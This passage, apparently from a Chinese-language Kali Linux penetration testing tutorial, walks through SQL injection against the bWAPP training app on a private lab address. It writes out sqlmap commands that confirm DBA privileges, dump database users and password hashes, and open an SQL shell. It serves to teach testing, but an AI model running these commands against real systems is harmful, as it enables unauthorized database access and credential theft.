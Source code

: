 4.  现在，在 Kali 中访问终端并输入以下命令：

    ```
    sqlmap -u "http://192.168.56.103/bWAPP/sqli_6.php" --cookie="PHPS ESSID=15bfb5b6a982d4c86ee9096adcfdb2e0; security_level=0" --data "title=test&action=search" -p title --is-dba
    ```

    ![](../img/3202d706e8a796f74a1291444517a9c6.png)

    我们可以看到注入成功了。当前的用户是 DBA，这意味着用户可以对数据库执行管理员操作，例如添加用户和修改密码。

5.  现在我们打算提取更多信息，例如用户和密码，所以在终端中输入以下命令：

    ```
    sqlmap -u "http://192.168.56.103/bWAPP/sqli_6.php" --cookie="PHPS ESSID=15bfb5b6a982d4c86ee9096adcfdb2e0; security_level=0" --data "title=test&action=search" -p title --is-dba --users --passwords
    ```

    ![](../img/cded310c495ad930d48b03bb2c32a5cb.png)

    我们现在得到了数据库的用户列表以及哈希后的密码。

6.  我们也可以获得 shell，让我们能够直接发送 SQL 查询到数据库。

    ```
    sqlmap -u "http://192.168.56.103/bWAPP/sqli_6.php" --cookie="PHPS ESSID=15bfb5b6a982d4c86ee9096adcfdb2e0; security_level=0" --data "title=test&action=search" -p title –sql-shell
    ```
